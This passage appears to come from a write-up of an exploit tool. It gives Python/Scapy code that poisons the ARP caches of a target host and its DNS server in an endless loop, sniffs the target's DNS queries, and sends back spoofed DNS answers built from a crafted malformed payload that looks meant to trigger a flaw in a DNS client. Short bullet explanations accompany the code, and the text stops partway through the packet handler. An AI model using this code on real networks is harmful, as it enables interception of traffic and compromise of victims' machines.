 - Enables IP forwarding to allow packet forwarding.
- Sets up an iptables rule to drop UDP packets on port 53 (DNS) to prevent normal DNS traffic from interfering with the attack.

#### ARP Spoofing

```python
def ARPP(target, dns_server):
    print("[*] Sending poisoned ARP packets")
    target_mac = getmacbyip(target)
    dns_server_mac = getmacbyip(dns_server)
    while True:
        time.sleep(2)
        send(ARP(op=2, pdst=target, psrc=dns_server, hwdst=target_mac),verbose = 0)
        send(ARP(op=2, pdst=dns_server, psrc=target, hwdst=dns_server_mac),verbose = 0)
```

- **getmacbyip**: Gets the MAC address for the given IP address.
- **send(ARP(...))**: Sends ARP reply packets to poison the ARP cache of the target and DNS server, making them believe the attacker's MAC address is associated with the other's IP address.

#### DNS Exploit Listener

```python
def exploit(target):
    print("[*] Listening ")
    sniff(filter="udp and port 53 and host " + target, prn=process_received_packet)
```

- **sniff**: Listens for UDP packets on port 53 (DNS) from the target.

#### Processing Received Packets

```python
def process_received_packet(received_packet):
    if received_packet[IP].src == target_ip:
        if received_packet.haslayer(DNS):
            if DNSQR in received_packet:
                print("[*] the received packet: " + str(bytes_hex(received_packet)))
                print("[*] the received DNS request: " + str(bytes_hex(received_packet[DNS].build())))
                try:
                    dns_request = received_packet[DNS].build()
                    null_pointer_index = bytes(received_packet[DNS].build()).find(0x00,12)
                    print("[*] debug: dns_request[:null_pointer_index] : "+str(hexlify(dns_request[:null_pointer_index])))
                    print("[*] debug: dns_request[null_pointer_index:] : "+str(hexlify(dns_request[null_pointer_index:])))
                    payload = [
                        dns_request[0:2],
                        b"\x81\x80\x00\x01\x00\x01\x00\x00\x00\x00",
                        dns_request[12:null_pointer_index+1],
                        dns_request[null_pointer_index+1:null_pointer_index+3],
                        dns_request[null_pointer_index+3:null_pointer_index+5],
                        b"\xC0\x0C\x00\x05\x00\x01\x00\x00\x0E\x10",
                        b"\x00\x0B\x18\x41\x41\x41\x41\x41\x41\x41",
                        b"\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41",
                        b"\x41\x41\x41\x41\x41\x41\x41\xC0\x04"
                    ]
                    
                    payload = b"".join(payload)
                    spoofed_pkt = (Ether()/IP(dst=received_packet[IP].src, src=received_packet[IP].dst)/\
                        UDP(dport=received_packet[UDP].sport, sport=received_packet[UDP].dport)/\
                        payload)
                    print("[+] dns answer: "+str(hexlify(payload)))
                    print("[+] full packet: " + str(bytes_hex(spoofed_pkt)))
```